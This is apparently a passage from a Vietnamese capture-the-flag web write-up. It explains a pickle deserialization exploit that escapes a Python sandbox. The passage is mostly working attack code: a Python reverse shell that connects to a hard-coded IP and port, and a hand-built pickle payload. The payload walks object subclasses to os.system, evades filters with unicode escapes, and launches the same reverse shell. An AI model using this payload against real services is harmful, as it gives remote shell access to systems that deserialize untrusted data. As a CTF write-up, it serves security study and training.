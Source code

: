 ```python
export RHOST="13.213.213.17";
export RPORT=10774;
python -c '
import sys,socket,os,pty;
s=socket.socket();
s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));
[os.dup2(s.fileno(),fd) for fd in (0,1,2)];
pty.spawn("sh")
'
```

Ta có thể thực gói đống này lại vào trong `__import__('os').system('....')` để hoàn thiện thực thi revshell. Payload cuối cùng với unicode kí tự `_` và `s`, ở đây ta có thể nhảy vào trong docker hoặc brute force xem os.*wrap_close* nằm ở index nào, trong trường hợp này là 134:

```python
import base64
raw = (
    b"\x80\x04"
    b"V__main__\n"
    b"V__class__.__base_\u005f.__subclasses__\n"
    b"\x93"
    b"(" b"t" b"R"
    b"p0\n"
    b"V__main__\n"
    b"V__class__.__base_\u005f.__getattribute__\n"
    b"\x93"
    b"p1\n"
    b"(" b"g0\n" b"V__getitem__\n" b"t" b"R"
    b"(" b"I134\n" b"t" b"R"
    b"p2\n"
    b"g1\n"
    b"(" b"g2\n" b"V__init__\n" b"t" b"R"
    b"p3\n"
    b"g1\n" b"(" b"g3\n" b"V__globals_\u005f\n" b"t" b"R"
    b"p4\n"
    b"g1\n" b"(" b"g4\n" b"V__getitem__\n" b"t" b"R"
    b"p5\n"
    b"(" b"V__builtins_\u005f\n" b"t" b"R"
    b"p6\n"
    b"g1\n" b"(" b"g6\n" b"V__getitem_\u005f\n" b"t" b"R"
    b"p7\n"
    b"(" b"Veval\n" b"t" b"R"
    b"p8\n"
    b"(V__import_\u005f('o\u0073').sy\u0073tem(\"export RHOST='13.213.213.17';export RPORT=10774;python -c \\\"import sy\u0073,socket,o\u0073,pty;s=socket.socket();s.connect((o\u0073.getenv('RHOST'),int(o\u0073.getenv('RPORT'))));[o\u0073.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn('bash')\\\"\")\n"
    b"t"
    b"R"
    b"."
)
print(base64.b64encode(raw))
```

<img width="1286" height="670" alt="image" src="https://github.com/user-attachments/assets/9493bc3f-4c6f-4a65-a9d4-6acce7c32b64" />  

FROM THE [SOURCE](https://github.com/nglong05/CTF-write-ups/blob/main/Web/PTITCTF/WriteUpPTITCTF_vongloai.md)
